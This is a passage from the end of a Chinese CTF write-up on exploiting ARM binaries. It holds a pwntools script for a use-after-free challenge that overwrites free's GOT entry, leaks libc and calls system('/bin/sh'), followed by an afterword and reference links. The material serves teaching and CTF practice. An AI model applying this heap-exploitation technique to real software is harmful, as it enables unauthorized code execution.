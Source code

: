 ```
        sh.sendline(str(Point))

if __name__ == "__main__":
    sh = get_sh(True)
    creat(sh,'Chunk__0','Chunk__0','A' * (0x20 - 1))
    creat(sh,'Chunk__1','Chunk__1','A' * (0x20 - 1))
    creat(sh,'Chunk__2','Chunk__2','A' * (0x20 - 1))
    creat(sh,'Chunk__3','/bin/shx00','/bin/shx00')
    delete(sh,1)
    edit(sh,'Chunk__2','A' * 0x38 + p32(Use_After_Free.got['free']),2,2)
    show(sh,1,'Chunk__1')
    sh.recvuntil('  Desc:  ')
    libc_base = u32(sh.recv(4)) - libc.symbols['free']
    success('We get libc base address is ' + str(hex(libc_base)))
    sh.recvuntil(': ')
    sh.sendline('edit' + ' ' + 'Chunk__1')
    sh.recvuntil('Team: ')
    sh.sendline('Chunk__1')
    sh.recvuntil('Desc: ')
    sh.sendline(p32(libc_base + libc.symbols['system']) + p32(libc_base + libc.symbols['fgets']))
    sh.recvuntil('Points: ')
    sh.sendline(str(1))
    delete(sh,3)
    sh.interactive()
    flag=get_flag(sh)
    log.success('The flag is '+flag)
```



## 0x05 后记

可以看出，ARM架构下的pwn利用大多数还是利用了Intel32/AMD64架构下的利用思想，只要理解并掌握了ARM架构指令集的变化，利用还是相对容易的，此处的题目没有展示更深的利用技巧(例如：栈喷射、堆喷射、条件竞争等)，这些技巧可能会在我的下一篇文章中给与展示，同时接下来我将会去尝试总结MIPS架构下的PWN利用技巧~



## 0x06 参考链接

[arm64程序调用规则 – maniac_kk](https://juejin.im/post/5d14623ef265da1bb47d7635)

[如何 pwn 掉一个 arm 的binary – m4x](https://m4x.fun/post/how-2-pwn-an-arm-binary/)

[ARM汇编指令-STMFD和LDMFD – 行走的红茶](https://blog.csdn.net/weiwei_xiaoyu/article/details/20563479)

[ARM汇编编程规则 – Arrow](https://blog.csdn.net/MyArrow/article/details/9665513)

[ARMv8-AArch64寄存器和指令集](https://blog.csdn.net/tanli20090506/article/details/71487570)

[ARM栈溢出攻击实践：从虚拟环境搭建到ROP利用](https://www.freebuf.com/articles/terminal/107276.html)

[Mac下安装qemu并模拟树莓派操作系统 – gogogogo彬](https://blog.csdn.net/qq_40640958/article/details/89048551)

[Rootme CTF UAF Writeup](https://www.ms509.com/2018/03/23/Rootme-uaf-writeup/)
